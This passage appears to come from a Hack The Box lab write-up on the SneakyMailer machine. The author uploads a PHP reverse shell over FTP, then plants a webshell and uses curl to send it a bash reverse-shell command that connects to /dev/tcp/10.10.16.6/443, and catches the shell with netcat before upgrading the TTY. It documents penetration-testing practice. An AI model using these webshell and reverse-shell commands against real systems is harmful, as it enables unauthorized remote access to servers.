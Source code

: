 That worked, but it gets better than that. I have access to the web server. So I can place a [reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php):

```bash
ftp> put shell.php
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5488 bytes sent in 0.00 secs (20.4444 MB/s)
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 May 26  2020 css
drwxr-xr-x    2 0        0            4096 May 26  2020 img
-rwxr-xr-x    1 0        0           13742 Jun 23  2020 index.php
drwxr-xr-x    3 0        0            4096 May 26  2020 js
drwxr-xr-x    2 0        0            4096 May 26  2020 pypi
drwxr-xr-x    4 0        0            4096 May 26  2020 scss
-rwxr-xr-x    1 0        0           26523 May 26  2020 team.php
drwxr-xr-x    8 0        0            4096 May 26  2020 vendor
226 Directory send OK.
```

The reverse shell did not correctly work, so I uploaded a webshell first:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/sneakymailer]
└─$ curl http://dev.sneakycorp.htb/cmd.php --data-urlencode "cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

It get's deleted very fast, so I only have little time to execute commands. But I can try to get a reverse shell:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/sneakymailer]
└─$ curl http://dev.sneakycorp.htb/cmd.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.16.6/443 0>&1'"
```

Now, look at the netcat listener:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/sneakymailer]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.197] 57148
bash: cannot set terminal process group (728): Inappropriate ioctl for device
bash: no job control in this shell
www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ which python
which python
/usr/bin/python
www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ python -c 'import pty;pty.spawn("/bin/bash")'
</dev$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ export TERM=xterm
export TERM=xterm
www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ ^Z
zsh: suspended  nc -lvnp 443

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/sneakymailer]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 443

www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ ^C
www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
